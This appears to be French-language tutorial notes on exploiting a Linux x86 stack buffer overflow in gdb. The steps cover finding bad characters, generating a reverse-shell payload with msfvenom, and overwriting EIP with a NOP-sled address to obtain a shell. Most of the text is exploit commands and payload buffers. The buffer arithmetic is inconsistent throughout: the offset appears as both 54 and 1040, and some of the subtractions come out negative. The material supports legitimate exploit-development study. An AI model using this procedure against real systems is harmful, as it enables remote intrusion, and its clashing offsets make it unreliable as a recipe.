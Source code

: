 Apres avoir trouver l'`offset` , nous devons maintenant découvrir de combien d’espace nous disposons pour que notre reverse shell

nous avons besoin de :

```c
   Buffer = "A" * (offset - 100 - 150 - 4)
     NOPs = "\x90" * 4
Shellcode = "\x44" * 50
      EIP = "\x66" * 4
```

```c
(gdb) run $(python2 -c 'print "A" * (54 - 100 - 150 - 4) + "\x90" * 4 + "B" * 50 + "\x66" * 4')
```

**Find bad caracter**


Une fois que nous controllons l'`EIP`, nous devons identifier les mauvais caractères

Nous utilisons cette liste de caractères  pour connaître tous les caractères que nous devons prendre en compte et éviter lors de la génération de notre shellcode.

Cette chaîne fait `256`  octets

```sh
$CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Nous devons donc recalculer notre tampons

```c
Buffer = "A" * (offset - 256 - 4)
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

Maintenant il faut mettre un point d'arrêt au niveau de la fonction vulnerable pour que l'exécution s'arrête à ce stade, et nous puissions analyser le contenu de la mémoire.

```c
(gdb) break bowfunc 
```

Maintenant, nous pouvons exécuter l’entrée nouvellement créée et consulter la mémoire.

```c
(gdb) run $(python2 -c 'print "A" * (54 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

Après avoir exécuté notre tampon avec les mauvais caractères et atteint le point d'arrêt, nous pouvons examiner la pile.

```c
(gdb) x/2000xb $esp+500
```

Descendre plus bas et chercher le point final de `A` et le point de départ de `CHARS`
Nous voyons où se termine notre `A` et où commence la variable `CHARS`

Noter tout les caractères qui saute l'ordre de `CHARS` et ajuster le numéro de `CHARS` en retirant `-1` soit : `Buffer = "A" * (offset - (256 - n) - 4)` puis **rexécuter**

**Ce processus doit être répété jusqu'à ce que tous les caractères susceptibles d'interrompre le flux soient supprimés.**

> [!NOTE] Generalement nous devont verifier le `\x00` qui nous indique que ce caractère n'est pas autorisé ici et doit être supprimé en conséquence.


Ces caractères note sera notre `bad characters`

```c
msfvenom --platform linux -a x86 -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=4444 -f c -b "<badchars>" -o shellcode.c
```

Maintenant que nous avons notre shellcode, nous l'ajustons pour n'avoir qu'une seule chaîne, puis nous pouvons adapter et soumettre à nouveau notre simple exploit.

```c
   Buffer = "A" * (offset - 124 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4
```

```c
(gdb) run $(python -c 'print "\x55" * (offset - 124 - 95 - 4) + "\x90" * 4 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

Ensuite, nous vérifions si les premiers octets de notre shellcode correspondent aux octets après le NOPS.

Aller a la fin des `NOPs` et obsever le debut du shellcode

```c
(gdb) x/2000xb $esp+550
```

Après avoir vérifié que nous contrôlons toujours l'EIP avec notre shellcode, nous avons maintenant besoin d'une adresse mémoire où se trouvent nos NOP pour dire à l'EIP d'y accéder.

Cette adresse mémoire ne doit contenir aucun des mauvais caractères que nous avons trouvés précédemment.

```c
(gdb) x/2000xb $esp+1400
# 0xffffd644:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
# 0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
# 0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
# 0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
```

Ici, il faut maintenant choisir une adresse à laquelle on se réfère `EIP`

Après avoir sélectionné une adresse mémoire, nous remplaçons notre " `\x66`" qui écrase l'EIP pour lui dire de passer à l'adresse selectionner. (`0xffffd64c`)
 Notez que la saisie de l'adresse selectionner est saisie à l'envers.
 
```c
   Buffer = "A" * (offset - 100 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = \x4c\xd6\xff\xff"
```

> **Executer le programme pour obtenir un reverse shell**

```c
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

